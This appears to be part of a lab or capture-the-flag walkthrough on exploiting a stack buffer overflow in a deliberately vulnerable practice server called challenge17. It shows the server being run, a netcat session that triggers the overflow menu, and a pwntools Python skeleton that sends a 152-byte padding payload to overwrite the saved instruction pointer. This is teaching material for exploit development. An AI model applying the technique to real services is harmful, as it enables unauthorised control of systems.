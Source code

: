 ## Step 1: Check program behaviour

Start server, and note pid:
```
root@hlUbuntu64:~/challenges/challenge17# ./challenge17 &
[1] 5880
root@hlUbuntu64:~/challenges/challenge17# Listen on port: 5002
```

You can use the pid `5880` to later attach to the process in GDB via `attach 5880`.
```
root@hlUbuntu64:~/challenges/challenge17# nc localhost 5002
Press:
  0   To quit
  1   To stack overflow
> 1
How many bytes do you want to read?
> 4
Ok, i'll read 4 bytes
Input string:
> AAAA
I've read: 4 bytes
Ok, done
```

## Step 2: Basic exploit skelleton

We know the offset already from the previous challenge: `152`.

```
#!/usr/bin/python

import struct
from pwn import *

e = ELF("./challenge17")
tube = connect("localhost", 5002)

offset = 152

def doBof(payload):
        print tube.recvuntil("> ")
        tube.send("1");

        print tube.recv()
        tube.send(str(len(payload)));

        print tube.recv()
        tube.send(payload)

        print tube.recv()

payload = "A" * offset

payload += "BBBB" # SIP

doBof(payload)
```
